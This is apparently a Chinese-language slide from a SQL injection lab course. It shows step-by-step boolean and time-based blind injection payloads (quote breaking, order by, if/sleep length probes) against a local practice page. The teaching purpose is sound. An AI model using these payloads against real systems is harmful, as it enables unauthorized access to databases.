

# Less-02_布尔注入_01
1. http://192.168.1.178/control/sqlinject/bool_injection.php?id=1显示正常
2. http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘显示不完整，但是没有报错信息产生
3. http://192.168.80.136/control/sqlinject/bool_injection.php?id=1’--+ 显示正常，根据提示，得到注入点
4. http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ order by 2--+ 此时显示正常，说明存在两列（其实这个在本节中没有意义）
5. http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and  if((length(database())>2),1,sleep(5))--+ 通过慢慢测试到当前的数据库名字长度为5.